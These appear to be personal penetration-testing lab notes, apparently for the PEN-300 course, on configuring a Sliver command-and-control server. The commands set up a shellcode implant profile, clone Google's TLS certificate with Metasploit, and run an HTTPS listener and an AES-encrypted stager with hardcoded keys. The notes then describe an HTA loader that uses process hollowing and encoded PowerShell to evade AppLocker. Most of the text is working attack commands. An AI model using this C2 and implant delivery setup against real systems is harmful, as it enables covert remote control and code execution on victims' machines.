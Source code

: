 # Overview

# Sliver Setup
## Create profile local64 and point to port 443
`sliver > profiles new --http 192.168.45.227:443 --format shellcode local64`

## Setup certs with metasploit
`msfconsole -q -x "use auxiliary/gather/impersonate_ssl; set RHOST www.google.com; run; exit"`
Then save the .crt and .key files into an appropriate folder for easy reference

## Setup main listener with google.crt / key generated with metasploit
`sliver > https -L 192.168.45.227 -l 443 -c /home/kali/Desktop/PEN-300/sliver/sslCerts/google.crt -k /home/kali/Desktop/PEN-300/sliver/sslCerts/google.key`

## Setup the main stager with unzip key / decryption keys 
`sliver > stage-listener --url https://192.168.45.227:8064 --profile local64 -c /home/kali/Desktop/PEN-300/sliver/sslCerts/google.crt -k /home/kali/Desktop/PEN-300/sliver/sslCerts/google.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV`

# Sliver HTA Payload overview
the payload is specific to the Process Hollowing payload that works with the https sliver profile
Run the powershell encoder to convert the sliver.ps1 to usable format for the hta powershell code runner within hta file

## Modify the runner.xml
Modify the runner.xml and change the ip address and runner.ps1 (or .txt) which will be the shell code runner, reference the PEN-300/sliver folder for simple shell code runner .ps1 

## Encoding
The xml requires base64 encoding and placed into the runner.hta file within the powershell command to execute the mshta file. 
`PS Z:\SharedVMFolder\ToolLibrary\AppLocker-CLM\HTA\Sliver-AdvancedHTTPs-HTA-Loader> .\HTA-powershellEncoder.ps1`
Copy and paste the output from the encoded.txt file into the runner.hta file. 
